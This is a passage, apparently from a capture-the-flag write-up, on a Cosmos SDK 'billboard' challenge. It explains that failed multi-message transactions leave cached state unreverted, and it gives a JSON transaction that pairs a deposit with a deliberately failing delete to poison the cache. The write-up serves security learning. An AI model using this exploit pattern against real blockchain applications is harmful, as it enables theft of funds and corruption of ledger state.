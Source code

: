> You may ask how to fail the entire transaction. It's simple, just fill a transaction with a `MsgDeposit` type msg followed by a meant-to-fail msg.



### Exploit

Now we have known that the transaction is successful if only all msgs in the transaction is executed successfully, and failed tx will be reverted, but the changes in cache will remain rather than rollback.

So the idea is to poison cache with a failed multi msgs transaction:

1. Construct a transaction, which contains 2 msgs. 
   msg1: deposit 100ctc to the ad
   msg2: a meant-to-fail msg (like deleting a Non-exist advertisement)

```JSON
{
    "type": "cosmos-sdk/StdTx",
    "value": {
        "msg": [
            {
                "type": "billboard/deposit",
                "value": {
                    "id": "75b6a9be95d0c525eaac199cef2ab63ad2fe4d0da7080b2d9d631fb69aa1b01a",
                    "amount": {
                        "denom": "ctc",
                        "amount": "100"
                    },
                    "depositor": "cosmos12kgjc5jmqrnskzxuxte9pl4drc7keulzl4jjgv"
                }
            },
            {
                "type": "billboard/DeleteAdvertisement",
                "value": {
                    "id": "kumamon",
                    "creator": "cosmos12kgjc5jmqrnskzxuxte9pl4drc7keulzl4jjgv"
                }
            }
        ],
        "fee": {
            "amount": [
                {
                    "denom": "ctc",
                    "amount": "10"
                }
            ],
            "gas": "200000"
        },
        "signatures": null,
        "memo": ""
    }
}
```
